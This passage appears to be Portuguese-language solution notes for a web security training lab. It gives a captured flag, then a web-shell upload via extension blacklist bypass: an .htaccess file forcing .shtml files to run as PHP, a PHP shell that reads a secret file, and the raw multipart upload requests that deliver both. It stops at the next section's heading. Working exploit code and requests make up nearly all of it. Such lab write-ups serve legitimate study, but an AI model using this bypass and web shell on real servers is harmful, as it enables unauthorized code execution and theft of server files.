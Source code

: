 `Flag: XkJTTpCMVsexpPb2EkLhZpRnuIhc7D1h`

### >> 4. Web shell upload via extension blacklist bypass

Crie um arquivo .htaccess com permissao de execucao php para shtml
````apache
<Files *.shtml>
ForceType application/x-httpd-php
</Files>
````

Crie um arquivo webshell
````php
<?php echo file_get_contents('/home/carlos/secret'); ?>
````

````htttp
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

<Files *.shtml>
ForceType application/x-httpd-php
</Files>
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="csrf"

t4wvyamnWaFWHez4TJd9SQxZUXxYSLI6
------WebKitFormBoundarye3lspOAogkMjAhO7--
````

````http
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="avatar"; filename="webshell.shtml"
Content-Type: image/png

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="csrf"

t4wvyamnWaFWHez4TJd9SQxZUXxYSLI6
------WebKitFormBoundaryid3hJcJV3tX9G7VB--
````

### >> 5. Web shell upload via obfuscated file extension
